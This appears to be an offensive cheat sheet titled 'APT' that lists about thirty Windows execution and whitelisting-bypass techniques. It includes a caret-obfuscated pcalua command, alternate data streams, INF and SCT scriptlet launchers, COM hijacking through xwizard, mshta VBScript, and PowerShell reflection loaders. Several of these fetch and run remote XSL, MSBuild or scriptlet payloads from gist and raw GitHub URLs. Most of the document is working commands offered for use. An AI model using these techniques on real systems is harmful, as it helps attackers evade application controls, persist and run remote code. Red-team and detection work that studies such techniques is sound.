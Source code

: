 #######################
|                     #
|        APT          #
|                     #
#######################


( 1 ) Use Pcalua 
```
p^c^a^l^u^a^ ^-^n^ ^-^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^n^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a^^a^a^a^a^a^a^a^a^a^a calc.exe
```

( 2 )  Alternate Data Streams ADS:>

```
cmd.exe:> type C:\Users\Gihad\Desktop\file.bat > C:\Users\Gihad\Desktop\test.txt:x22x2
cmd.exe:> netsh exec C:\Users\Gihad\Desktop\test.txt:x22x2
```

( 3 ) pnputil.exe Launcher .INF:> Note This Eveything here .INF Work on My Script INFscript Only !
```
pnputil.exe /add-driver C:\FilesINFExecution.inf /install

&- My Code INFScript Injection Command Line 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```
( 4 ) INFDefaultInstall Launch Execute INFScript 
```
INFDefaultInstall.exe C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 5 ) setupapi.dll Launch Execute My INFScript 
```
setupapi.dll,InstallHinfSection DefaultInstall 132 C:\INFPS.inf
&-  Code INFScript 
https://gist.githubusercontent.com/homjxi0e/a27e34d7be34731fb637e820c883c8bc/raw/1414b5efd3f1c35d56382b1a1dfe7b455f1fe9bc/INFPS.inf
```

( 6 ) DLL Execution Using ( Reflection ) In CPLEx AccessibilityCPL RegServer
```
&- Add Values in HKLM Name File ms-settings in Open/Shell/Command
&- rundll32 accessibilitycpl.dll,DllRegisterServer 
&- rundll32 shell32.dll,Control_RunDLL "C:\Windows\tem32\desk.cpl"
```
( 7 ) Language LUA in Files .wlua
```
wlua.exe C:\testing.wlua
&- Hello World Exe My Code LUA
https://gist.githubusercontent.com/homjxi0e/bbd218dea9bf63fd36524b9777a399f3/raw/888f7e484651fdb733d6261ca002d684a6e5bf9b/Test.wlua
```

( 8 ) SCT ScriptLet Execution in My INFScript
```
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
&- Raw Code 
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415
```

( 9 ) Jscript Execute Code Via ( Eval,VSA,) 
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JSCript')
$attack = 'var invokeMethod = new ActiveXObject("WScript.Shell");invokeMethod.Run("notepad.exe")'
[Microsoft.JScript.Eval]::JScriptEvaluate($attack,[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
&- Code Execute
https://gist.githubusercontent.com/homjxi0e/0d683007bd4a3ce39d3e19342aaa68ec/raw/4c8709382280de158b99dd78f91875e32a54bac4/ATPSJScript
```

( 10 ) MSI Launch Execution ( MsiExec.exe ) 
```
 msiexec.exe /passive /i C:\testing.msi /norestart 
 &- File MSI Hello World Exe in .MSI 
```

( 10v1 ) COM Component object Model Hijacking
```
&- Add Reg in System 
https://gist.githubusercontent.com/homjxi0e/8e42aa716361dc41b1c45a314bea501c/raw/327104671eebad1361210524f34076503e6b8e44/COM-hijacking.reg
&- You can now Execution invoke-CLSID Via xwizard.exe
xwizard RunWizard /taero /u {00000001-0000-0000-0000-0000FEEDACDC}
```
( 10v2 ) Execute VBScript Via mshta.exe
```
&- Execute VBScript Code using mshta.exe
mshta.exe VBScript:Close(Execute("Set S=CreateObject(""WScript.Shell""):If S.AppActivate(""maybe-Run"")=False Then:S.Run(""C:\Windows\system32\Calc.exe""):End If"))
https://gist.githubusercontent.com/homjxi0e/eb16d75f3db6d6081648f2c5c5c98c3b/raw/0870f7553095dcf6519f93c1cf72c6415468140b/VBSExC
```

( 10v3 ) forfiles.exe Execution Endless 
```
forfiles.exe /c calc.exe

```
( 10v4 ) Lateral Movement Using COM Object Hijacking 
```
 $COMEx = [Activator]::CreateInstance([type]::GetTypeFromCLSID("{00000001-0000-0000-0000-0000FEEDACDC} "))
 https://gist.github.com/homjxi0e/95aeb250b5290b27804cbe983af91085
```

( 10v5 ) ScriptRunner.exe Execution 
```
ScriptRunner.exe -appvscript C:\Windows\System32\calc.exe
```
( 10v6 )  msdt.exe Execute EXE-MSI Via Reader XML wtih Launch by Pcwrun.exe
```
 msdt.exe -path C:\WINDOWS\diagnostics\index\PCWDiagnostic.xml -af C:\PCW8E57.xml /skip TRUE
 &- link file PCW8E57.xml
 https://gist.github.com/homjxi0e/3f35212db81b9375b7906031a40c6d87
```
( 10v7 ) Launch MSI Pacakge Execution Powershell
```
install-Package C:\test.msi
https://github.com/homjxi0e/MSIScript/blob/master/Exec-Execute.msi
```
( 10v8 ) DLL Execute CML Launch Application 
```
rundll32.exe C:\Windows\System32\pcwutl.dll,LaunchApplication calc.exe
```
( 10v9 ) HTA/MSI Execute Using OpenWith.exe
```
Whitelisting SRP Bypassing Using OpenWith.exe To Launch HTA/MSI Execution 
&- OpenWith.exe /c C:\test.hta 
&- OpenWith.exe /c C:\testing.msi
```
( 10v11 )  XrML Digital License (.xrm-ms) ActiveX

```
iexplorer C:\test.xrm-ms 
https://gist.github.com/homjxi0e/099d8f35f3b2e1b7daa7cbe366df1ed3
 
```
( 10v12 ) 
```
start C:\obj.url
https://gist.github.com/homjxi0e/0023a9cb5d4fee198019f87bd348effc
```
( 10 v13 ) ActiveX executing using a SVG Document 
```
iexplorer C:\PoC.svg
https://gist.github.com/homjxi0e/4a38b2402e77a536a4deb17928f9a8b0

```

(Note) Product Via @bohops
( 11 ) HTA Launch Execution ( url.dll ) 
```
Rundll32.exe url.dll,OpenURL FileHTA Or Anything 
```
( 12 ) SCT Launch Execution InSide INFScript ( ieadvpack.dll )  
```
rundll32.exe ieadvpack.dll,LaunchINFSection test.inf,,1, 
```

( 13 ) XML Launch Execution Via Reflection,Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.Build');
$proj = [System.Xml.XmlReader]::create("https://gist.githubusercontent.com/caseysmithrc/8e58d11bc99e496a19424fbe5a99175f/raw/38256d70b414f6678005366efc86009c562948c6/xslt2.proj")
$e=new-object Microsoft.Build.Evaluation.Project($proj); 
$e.build();
```
( 14 ) CSharp Launch Execution Via Reflection.Assembly Powershell 

```
[Reflection.Assembly]::LoadWithPartialName('http://Microsoft.Build '); $e=new-object http://Microsoft.Build.Evaluation.Project('evil.csproj'); $e.Build();
```
( 15 ) SCT Execution Via INFScript By ( advpack.dll )

```
rundll32.exe advpack.dll,LaunchINFSection c:\test.inf,DefaultInstall_SingleUser,1,
```
( 16 ) XML Launch Execution Via Reader XML,Transform Object Powershell 
```
$s=New-Object System.Xml.Xsl.XsltSettings;$r=New-Object System.Xml.XmlUrlResolver;$s.EnableScript=1;$x=New-Object System.Xml.Xsl.XslCompiledTransform;$x.Load('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xsl',$s,$r);$x.Transform('https://gist.githubusercontent.com/bohops/ee9e2d7bdd606c264a0c6599b0146599/raw/f8245f99992eff00eb5f0d5738dfbf0937daf5e4/xsl-notepad.xml','z');del z;
```

( 17 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.VisualBasic )

```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.VisualBasic');[Microsoft.VisualBasic.Interaction]::GetObject('script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …').Exec(0)

```

( 18 ) SCT Launch Execution Reflection.Assembly Via ( Microsoft.JScript )
```
[Reflection.Assembly]::LoadWithPartialName('Microsoft.JScript');[Microsoft.JScript.Eval]::JScriptEvaluate('GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/atomic-dev-cs/Windows/Payloads/mshta.sct …").Exec()',[Microsoft.JScript.Vsa.VsaEngine]::CreateEngine())
```

( 19 ) Commandline APT Launch Execution Applocker/Bypassing Via ( CL_LoadAssembly )

```
import-module C:\windows\diagnostics\system\AERO\CL_LoadAssembly.ps1
LoadAssemblyFromPath C:\Windows\System32\calc.exe
```

( 20 ) HTA Launch Execution Via ( shdocvw.dll ) 

```
rundll32.exe shdocvw.dll, OpenURL <path to local URL file>
```

( 21 ) HTA Launch Execution Via ( ieframe.dll ) 

```
rundll32.exe ieframe.dll, OpenURL <path to local URL file>
```
( 22 ) Commandline Execute Via  Vshadow.exe
```
 Vshadow exec calc.exe
 ```
 
 ( 23 ) CSharp Execution Via ProjectInstance RA Powershell
 ```
 [Reflection.Assembly]::LoadWithPartialName('Microsoft.Build')
$p="c:\test\test.csproj"
$e=new-object Microsoft.Build.Execution.ProjectInstance($p)
$e.build()
```
